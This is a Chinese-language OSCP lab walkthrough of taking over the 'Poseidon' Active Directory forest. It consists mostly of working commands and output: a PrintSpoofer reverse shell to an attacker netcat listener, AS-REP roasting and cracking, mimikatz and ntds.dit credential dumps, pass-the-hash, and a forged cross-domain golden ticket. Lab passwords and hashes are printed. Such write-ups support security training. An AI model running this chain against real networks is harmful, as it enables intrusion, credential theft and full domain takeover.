

# Poseidon 靶機滲透測試紀錄

> [!info] **靶機基本資訊**
> - **平台**：OSCP Lab (Active Directory 森林環境)
> - **作業系統**：Windows (Server 2016 / Server 2019)
> - **難易度**：Hard
> - **開始時間**：2026-07-19

---

## 🔍 192.168.x.163 滲透突破

### 1. 偵察與憑證驗證
使用 `nxc` 驗證已知的網域憑證，發現 `Eric.Wallows:EricLikesRunning800` 可以透過 winrm 登入 `192.168.x.163` (子網域成員主機 GYOZA)：
```bash
┌──(kali㉿kali)-[~/Desktop/Poseidon]
└─$ nxc winrm 192.168.x.0 -u 'Eric.Wallows' -p EricLikesRunning800
WINRM       192.168.224.161 5985   DC01             [*] Windows 10 / Server 2016 Build 14393 (name:DC01) (domain:poseidon.yzx)
WINRM       192.168.224.163 5985   GYOZA            [*] Windows 10 / Server 2019 Build 19041 (name:GYOZA) (domain:sub.poseidon.yzx)
WINRM       192.168.224.162 5985   DC02             [*] Windows 10 / Server 2016 Build 14393 (name:DC02) (domain:sub.poseidon.yzx)
WINRM       192.168.224.161 5985   DC01             [-] poseidon.yzx\Eric.Wallows:EricLikesRunning800
WINRM       192.168.224.163 5985   GYOZA            [+] sub.poseidon.yzx\Eric.Wallows:EricLikesRunning800 (Pwn3d!)
WINRM       192.168.224.162 5985   DC02             [-] sub.poseidon.yzx\Eric.Wallows:EricLikesRunning800
```

---

### 2. 初始存取與本地提權 (SeImpersonatePrivilege)
使用 `evil-winrm` 登入 `192.168.224.163`，檢查使用者特權，發現目前使用者擁有 `SeImpersonatePrivilege` 權限，且 `Print Spooler` 服務正在運行：
```powershell
┌──(kali㉿kali)-[~/Desktop/Poseidon]
└─$ evil-winrm -u Eric.Wallows -p EricLikesRunning800 -i 192.168.224.163

Evil-WinRM shell v3.9

Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\eric.wallows\Documents> whoami
sub\eric.wallows

*Evil-WinRM* PS C:\Users\eric.wallows\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= =======
SeShutdownPrivilege           Shut down the system                      Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeUndockPrivilege             Remove computer from docking station      Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Enabled
SeTimeZonePrivilege           Change the time zone                      Enabled

*Evil-WinRM* PS C:\Users\eric.wallows\Documents> Get-Service spooler

Status   Name               DisplayName
------   ----               -----------
Running  spooler            Print Spooler
```

利用 `PrintSpoofer64.exe` 配合 `SeImpersonatePrivilege` 執行 PowerShell Base64 反彈指令，成功在 Kali 端接回具有最高 SYSTEM 權限的 Shell，並獲取 `local.txt` 與 `proof.txt`：
```powershell
*Evil-WinRM* PS C:\Users\eric.wallows\Documents> .\PrintSpoofer64.exe -c "powershell -e JABjAGwAaQBlAG4AdAAgAD........"
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
```
```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ rlwrap nc -lvnp 4455
listening on [any] 4455 ...
connect to [192.168.45.216] from (UNKNOWN) [192.168.224.163] 50331

PS C:\Windows\system32> whoami
nt authority\system

PS C:\Windows\system32> ls C:\users -file -i local.txt -r -ea 0


    Directory: C:\users\chen\Desktop


Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
-a----         6/13/2026   8:19 AM             34 local.txt                                                            


PS C:\Windows\system32> ls C:\users -file -i proof.txt -r -ea 0


    Directory: C:\users\Administrator\Desktop


Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
-a----         6/13/2026   8:19 AM             34 proof.txt
```

---

### 3. AS-REP Roasting 攻擊域帳戶 (chen)
由於已知網域成員帳戶 `Eric.Wallows` 憑證，使用 Impacket 中的 `GetNPUsers` 對網域進行 AS-REP Roasting，發現 `chen` 帳戶未啟用預先驗證：
```bash
┌──(kali㉿kali)-[~/Desktop/Poseidon]
└─$ impacket-GetNPUsers -dc-ip 192.168.224.162 -request -outputfile hashes.asreproast sub.poseidon.yzx/Eric.Wallows:EricLikesRunning800
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

Name  MemberOf  PasswordLastSet             LastLogon                   UAC      
----  --------  --------------------------  --------------------------  --------
chen            2023-06-19 05:58:22.569292  2026-06-13 04:34:48.801402  0x410200 

$krb5asrep$23$chen@SUB.POSEIDON.YZX:3ab405ee5b8b59e36444d163da352f75$949f0fe6cf3beb67d6cec6b2ca542b45cb64a15e3a4fb25505a0b4e037cfd621f90983cbb1512d7847b9a7586ea99a3f79ba14d2ae906c65f9d229956e4161316e4bd978a80d82d1d29b7056a48db0608bd1dd099451d1cb297d389a305c678d6126fb51b339f9da02a1d6f359755f28bedb3077a6fb4dfbb73eea77e8437d5cbc85c9432703be4036720704841dec6993e33584edc0cd23e29f8d237267d71873097b62eb31e69ebb368e71aad906f3a344a95c8f914998ded0b25c3bdc919b9ec804ea2ebe54812a542c0f8e37832a330fd298940fce5ee0e5821ff91dee1eba35fabcd23ab1dcac120f2eca727dd229b0fe25
```

使用 `hashcat` 離線破解密碼：
```bash
┌──(kali㉿kali)-[~/Desktop/Poseidon]
└─$ hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt

........

$krb5asrep$23$chen@SUB.POSEIDON.YZX:........:freedom
```
成功破解域帳戶密碼：**`chen:freedom`**。

使用 `nxc` 驗證憑證，確認 `chen` 也可以透過 winrm 登入 `GYOZA` 主機：
```bash
┌──(kali㉿kali)-[~/Desktop/Poseidon]
└─$ nxc winrm 192.168.x.0 -u chen -p freedom
WINRM       192.168.224.162 5985   DC02             [*] Windows 10 / Server 2016 Build 14393 (name:DC02) (domain:sub.poseidon.yzx)
WINRM       192.168.224.161 5985   DC01             [*] Windows 10 / Server 2016 Build 14393 (name:DC01) (domain:poseidon.yzx)
WINRM       192.168.224.162 5985   DC02             [-] sub.poseidon.yzx\chen:freedom
WINRM       192.168.224.163 5985   GYOZA            [*] Windows 10 / Server 2019 Build 19041 (name:GYOZA) (domain:sub.poseidon.yzx)
WINRM       192.168.224.161 5985   DC01             [-] poseidon.yzx\chen:freedom
WINRM       192.168.224.163 5985   GYOZA            [+] sub.poseidon.yzx\chen:freedom (Pwn3d!)
```

---

### 4. 記憶體憑證導出
上傳並執行 `mimikatz`，成功導出明文憑證：
```powershell
PS C:\> .\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit

..........

         * Username : lisa
         * Domain   : SUB.POSEIDON.YZX
         * Password : LisaWayToGo456

..........
```
取得子域憑證：**`lisa:LisaWayToGo456`**。

---
---

## 🔍 192.168.x.162 (子域控制器 DC02) 滲透突破

### 1. BloodHound ACL 分析
在 Kali 攻擊機端編輯 `/etc/hosts` 以確保解析子網域的名稱：
```bash
┌──(kali㉿kali)-[~/Desktop/Poseidon/blood]
└─$ cat /etc/hosts 

.....

192.168.224.162 dc02.sub.poseidon.yzx sub.poseidon.yzx

.....
```

使用 `bloodhound-python` 進行資訊收集：
```bash
┌──(kali㉿kali)-[~/Desktop/Poseidon/blood]
└─$ bloodhound-python -u lisa -p LisaWayToGo456 -d sub.poseidon.yzx -ns 192.168.224.162 -c all
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: sub.poseidon.yzx
WARNING: Could not find a global catalog server, assuming the primary DC has this role
If this gives errors, either specify a hostname with -gc or disable gc resolution with --disable-autogc

.........
```

將產生的 JSON 匯入 BloodHound 分析。結果顯示域帳戶 `lisa` 對域帳戶 `jackie` 擁有 **`ALLExtendedRights`** 權限，允許強制重設其密碼：



---

### 2. ALLExtendedRights 權限重設密碼
使用 Linux 的 `net` 指令透過 `lisa` 的權限將 `jackie` 的密碼強制修改為 `password`：
```bash
┌──(kali㉿kali)-[~/Desktop/Poseidon/blood]
└─$ net rpc password "jackie" "password" -U "sub.poseidon.yzx"/"lisa"%"LisaWayToGo456" -S "192.168.224.162"
```

使用 `nxc` 驗證，確認重設密碼成功，且 `jackie` 可以透過 WinRM 登入 `192.168.224.162` (DC02，子網域控制器)：
```bash
┌──(kali㉿kali)-[~/Desktop/Poseidon]
└─$ nxc winrm 192.168.x.0 -u 'jackie' -p 'password' 
WINRM       192.168.224.162 5985   DC02             [*] Windows 10 / Server 2016 Build 14393 (name:DC02) (domain:sub.poseidon.yzx)
WINRM       192.168.224.161 5985   DC01             [*] Windows 10 / Server 2016 Build 14393 (name:DC01) (domain:poseidon.yzx)
WINRM       192.168.224.163 5985   GYOZA            [*] Windows 10 / Server 2019 Build 19041 (name:GYOZA) (domain:sub.poseidon.yzx)
WINRM       192.168.224.161 5985   DC01             [-] poseidon.yzx\jackie:password
WINRM       192.168.224.162 5985   DC02             [+] sub.poseidon.yzx\jackie:password (Pwn3d!)
WINRM       192.168.224.163 5985   GYOZA            [-] sub.poseidon.yzx\jackie:password
```

---

### 3. SeBackupPrivilege 特權提權與憑證轉儲 (Dumping NTDS.dit)
使用 `evil-winrm` 登入 `192.168.224.162`，發現 `jackie` 擁有 `SeBackupPrivilege` 特權：
```powershell
┌──(kali㉿kali)-[~/Desktop/Poseidon]
└─$ evil-winrm -u jackie -p password -i 192.168.224.162

Evil-WinRM shell v3.9

Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline                                                                                        

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion                                                                                                   

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\jackie\Documents> whoami
sub\jackie
*Evil-WinRM* PS C:\Users\jackie\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

由於需要讀取鎖定中的系統 Active Directory 資料庫 `ntds.dit`，使用 `vshadow.exe` 建立 `C:` 槽的磁碟區陰影複製快照，並將其掛載到 `X:\` 磁碟機：
```powershell
*Evil-WinRM* PS C:\Users\jackie\Documents> cmd.exe /c "vshadow.exe -nw -p  C:"

VSHADOW.EXE 3.0 - Volume Shadow Copy sample client.
Copyright (C) 2005 Microsoft Corporation. All rights reserved.


(Option: No-writers option detected)
(Option: Persistent shadow copy)
(Option: Create shadow copy set)
- Setting the VSS context to: 0x00000019
Creating shadow set {f0feba2d-46f4-4400-aa94-ff62b46da746} ...
- Adding volume \\?\Volume{bc265d6e-c516-4c80-b881-4e8c9eae5940}\ [C:\] to the shadow set...
Creating the shadow (DoSnapshotSet) ...
(Waiting for the asynchronous operation to finish...)
Shadow copy set succesfully created.

List of created shadow copies:


Querying all shadow copies with the SnapshotSetID {f0feba2d-46f4-4400-aa94-ff62b46da746} ...

* SNAPSHOT ID = {1383641e-3ef7-4160-a07c-938fed5733a7} ...
   - Shadow copy Set: {f0feba2d-46f4-4400-aa94-ff62b46da746}
   - Original count of shadow copies = 1
   - Original Volume name: \\?\Volume{bc265d6e-c516-4c80-b881-4e8c9eae5940}\ [C:\]
   - Creation Time: 6/13/2026 9:40:11 AM
   - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
   - Originating machine: dc02.sub.poseidon.yzx
   - Service machine: dc02.sub.poseidon.yzx
   - Not Exposed
   - Provider id: {b5946137-7b9f-4925-af80-51abd60b20d5}
   - Attributes:  No_Auto_Release Persistent No_Writers Differential


Snapshot creation done.
```
```powershell
*Evil-WinRM* PS C:\Users\jackie\Documents> cmd.exe /c "vshadow.exe -el={1383641e-3ef7-4160-a07c-938fed5733a7},X:"

VSHADOW.EXE 3.0 - Volume Shadow Copy sample client.
Copyright (C) 2005 Microsoft Corporation. All rights reserved.


(Option: Expose a shadow copy)
- Setting the VSS context to: 0xffffffff
- Exposing shadow copy {1383641e-3ef7-4160-a07c-938fed5733a7} under the path 'X:'
- Checking if 'X:' is a valid drive letter ...
- Shadow copy exposed as 'X:\'
```

利用具有 `SeBackupPrivilege` 備份功能的 `robocopy /B` 指令，將鎖定中的 `ntds.dit` 及解密所需的 `SYSTEM` 檔案複製出來：
```powershell
*Evil-WinRM* PS C:\Users\jackie\Documents> robocopy "X:\Windows\NTDS\" C:\Users\jackie\Documents\ ntds.dit /B

......

*Evil-WinRM* PS C:\Users\jackie\Documents> robocopy "X:\Windows\System32\config\" C:\Users\jackie\Documents\ SYSTEM /B

......
```

將檔案傳送回攻擊機 Kali 上，使用 `impacket-secretsdump` 進行本地離線解密轉儲：
```bash
┌──(kali㉿kali)-[~/Desktop/Poseidon/dc02]
└─$ impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL                           
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x6147911c9221199f60a625e5011aafde
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 510cae62a7d31edc77934766cf32f0ac
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:3bcdd818f7ec942ac91aa30d8db71927:::

.........

krbtgt:aes256-cts-hmac-sha1-96:b2304e451b53dc5e71c08ddd0fd06a3803d8f14243020fd46c80ad44ec75d2a2

........
```
成功轉儲子網域的全域雜湊值，取得 `krbtgt` 的 AES-256 金鑰：**`b2304e451b53dc5e71c08ddd0fd06a3803d8f14243020fd46c80ad44ec75d2a2`**，及 Administrator 雜湊值：**`3bcdd818f7ec942ac91aa30d8db71927`**。

使用 `impacket-psexec` 接管子網域控 `192.168.224.162` (DC02)，取得 `local.txt` 與 `proof.txt`：
```bash
┌──(kali㉿kali)-[~/Desktop/Poseidon]
└─$ impacket-psexec -hashes :3bcdd818f7ec942ac91aa30d8db71927 administrator@192.168.224.162
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 192.168.224.162.....
[*] Found writable share ADMIN$
[*] Uploading file whidxlPy.exe
[*] Opening SVCManager on 192.168.224.162.....
[*] Creating service gkIp on 192.168.224.162.....
[*] Starting service gkIp.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```
```powershell
C:\Windows\system32> powershell -c "ls C:\users -file -i local.txt -r -ea 0"


    Directory: C:\users\jackie\Desktop


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        6/13/2026   8:18 AM             34 local.txt                                                             


C:\Windows\system32> powershell -c "ls C:\users -file -i proof.txt -r -ea 0"


    Directory: C:\users\Administrator\Desktop


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        6/13/2026   8:18 AM             34 proof.txt
```

---
---

## 👑 雙向信任跨域接管 (Child-to-Parent Trust Attack)

### 1. 偵察與確認信任關係
在子網域控制器 (DC02) 上，使用內網指令確認子網域 `sub.poseidon.yzx` 與父網域 `poseidon.yzx` 存在雙向信任關係：
```powershell
*Evil-WinRM* PS C:\Users\jackie\Documents> netdom query trust
Direction Trusted/Trusting domain                  Trust type
========= =======================                  ==========

<->       poseidon.yzx
Direct
The command completed successfully.
```
```powershell
*Evil-WinRM* PS C:\Users\jackie\Documents> get-adtrust -filter *


Direction             : BiDirectional
DisallowTransivity    : False
DistinguishedName     : CN=poseidon.yzx,CN=System,DC=sub,DC=poseidon,DC=yzx
ForestTransitive      : False
IntraForest           : True
IsTreeParent          : False
IsTreeRoot            : False
Name                  : poseidon.yzx
ObjectClass           : trustedDomain
ObjectGUID            : 577abb8f-7171-4323-aa31-ee68a560d1cb
SelectiveAuthentication : False
SIDFilteringForestAware : False
SIDFilteringQuarantined : False
Source                : DC=sub,DC=poseidon,DC=yzx
Target                : poseidon.yzx
TGTDelegation         : False
TrustAttributes       : 32
TrustedPolicy         :
TrustingPolicy        :
TrustType             : Uplevel
UplevelOnly           : False
UsesAESKeys           : False
UsesRC4Encryption     : False
```
確認為雙向信任（`BiDirectional`）。

---

### 2. 獲取子域與父域之 Domain SID
使用 `nltest` 或 `PowerView` 的 `Get-DomainSid` 指令獲取子網域和父網域的 SID：
```powershell
PS C:\Users\jackie\Documents> nltest /domain_trusts /v
List of domain trusts:
    0: POSEIDON poseidon.yzx (NT 5) (Forest Tree Root) (Direct Outbound) (Direct Inbound) ( Attr: withinforest )
       Dom Guid: b77f9b23-9f53-4afc-a027-b38929b466f0
       Dom Sid: S-1-5-21-1190331060-1711709193-932631991
    1: sub sub.poseidon.yzx (NT 5) (Forest: 0) (Primary  Domain) (Native)
       Dom Guid: 5cdf1d22-5e08-4243-b8b1-32651fe49630
       Dom Sid: S-1-5-21-4168247447-1722543658-2110108262
The command completed successfully
```
```powershell
PS C:\Users\jackie\Documents> whoami
nt authority\system
PS C:\Users\jackie\Documents> Import-Module .\PowerView.ps1
PS C:\Users\jackie\Documents> Get-DomainSid -domain sub.poseidon.yzx
S-1-5-21-4168247447-1722543658-2110108262
PS C:\Users\jackie\Documents> Get-DomainSid -domain poseidon.yzx
S-1-5-21-1190331060-1711709193-932631991
```
*   子網域 `DomainSID` = `S-1-5-21-4168247447-1722543658-2110108262`
*   父網域 `DomainSID` = `S-1-5-21-1190331060-1711709193-932631991`

---

### 3. 偽造 Enterprise Admins 的跨網域黃金票據
使用 Impacket 軟體包中的 `ticketer`，透過已獲取的子域 `krbtgt` AES Key，偽造帶有父網域系統企業管理員組特權的跨域黃金票據（將父網域的 SID 附加 Enterprise Admins 識別號 `-519` 作為 `-extra-sid` 傳入）：
```bash
┌──(kali㉿kali)-[~/Desktop/Poseidon/dc02]
└─$ impacket-ticketer -aesKey b2304e451b53dc5e71c08ddd0fd06a3803d8f14243020fd46c80ad44ec75d2a2 -domain-sid S-1-5-21-4168247447-1722543658-2110108262 -domain sub.poseidon.yzx -extra-sid S-1-5-21-1190331060-1711709193-932631991-519 -extra-pac administrator         
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for sub.poseidon.yzx/administrator
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*]     EncAsRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncASRepPart
[*] Saving ticket in administrator.ccache
```

---

### 4. 接管父網域控制器 (Pass-the-Ticket)
將生成的票據載入至系統環境變數中：
```bash
┌──(kali㉿kali)-[~/Desktop/Poseidon/dc02]
└─$ export KRB5CCNAME=administrator.ccache
```

在攻擊機 `/etc/hosts` 中加入父網域控制器的 FQDN 解析（Kerberos 連線必須使用主機名稱）：
```bash
┌──(kali㉿kali)-[~/Desktop/Poseidon/dc02]
└─$ cat /etc/hosts 

.......

192.168.224.161 dc01.poseidon.yzx poseidon.yzx
```

使用 `impacket-psexec` 透過 Kerberos 認證（不需提供密碼），成功取得父網域控制器 `DC01` (192.168.224.161) 的最高權限 Shell，並獲取最後的域控 `proof.txt`：
```bash
┌──(kali㉿kali)-[~/Desktop/Poseidon/dc02]
└─$ impacket-psexec -k -no-pass sub.poseidon.yzx/administrator@dc01.poseidon.yzx
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on dc01.poseidon.yzx.....
[*] Found writable share ADMIN$
[*] Uploading file WAogqBdk.exe
[*] Opening SVCManager on dc01.poseidon.yzx.....
[*] Creating service norq on dc01.poseidon.yzx.....
[*] Starting service norq.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> powershell -c "ls C:\users -file -i proof.txt -r -ea 0"


    Directory: C:\users\Administrator\Desktop


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        6/13/2026   8:18 AM             34 proof.txt 
```
成功拿下 Poseidon 森林網域最高權限。
